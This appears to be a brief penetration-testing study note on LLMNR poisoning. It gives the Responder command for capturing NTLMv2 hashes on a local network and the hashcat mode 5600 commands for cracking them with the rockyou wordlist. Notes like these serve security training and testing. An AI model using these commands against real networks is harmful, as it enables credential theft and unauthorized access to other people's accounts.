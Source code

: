 # LLMNR Poisoning(needs an event)

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Example Attack</p></figcaption></figure>



## Capturing Hashes With Responder

```
sudo responder -I <interface eth0/tun0> -dwPv
```

make sure when u run this ;all the servers it prints are \[ON]

Example of us capturing an hash

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Copy those hashes into a text file(BEST WAY TO CRACK IS TO USE UR ORIGINAL OS(DOWNLOAD HASHCAT THERE AND USE UR GPU))

```
hashcat --help | grep NTLMv2
```

We see the module is 5600 for NTLMv2

```
hashcat -m 5600 <ur hashesh.txt> /usr/share/wordlists/rockyou.txt
```

IF already cracked

```
hashcat -m 5600 <ur hashesh.txt> /usr/share/wordlists/rockyou.txt --show
```
